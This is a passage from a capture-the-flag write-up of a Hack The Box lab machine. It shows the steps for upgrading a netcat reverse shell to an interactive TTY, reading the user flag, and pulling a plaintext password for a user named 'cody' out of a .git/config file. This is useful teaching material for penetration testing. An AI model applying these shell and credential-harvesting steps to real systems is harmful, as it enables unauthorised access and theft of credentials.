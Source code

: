 ###### Shell upgrade

The reverse shell we have got here might be unstable. So, upgrading the shell.

```bash
svc@busqueda:/var/www/app$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
svc@busqueda:/var/www/app$ ^Z
zsh: suspended  nc -nvlp 8888

0hmsec@kali:-$ stty raw -echo; fg
[1]  + continued  nc -nvlp 8888
                               reset
reset: unknown terminal type unknown
Terminal type? screen
svc@busqueda:/var/www/app$ 
```

#### USER flag

```bash
svc@busqueda:~$ cd /var/www/app
svc@busqueda:/var/www/app$ cd /home/svc
svc@busqueda:~$ cat user.txt
12a9020b67......................
```

Thus, we have found our `user.txt` flag.

---

## TA0006: Credential Access
### T1552.001: Credentials in Files

When enumerating around, we find `.git` folder in the `/var/www/app` directory. Inside the ".git" directory, we find a `config` file.

```bash
svc@busqueda:/var/www/app/.git$ cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

In the `config` file, we find:
1. reference to `gitea.searcher.htb`
2. Credentials for the user `cody` : `jh1usoih2bkjaspwe92`
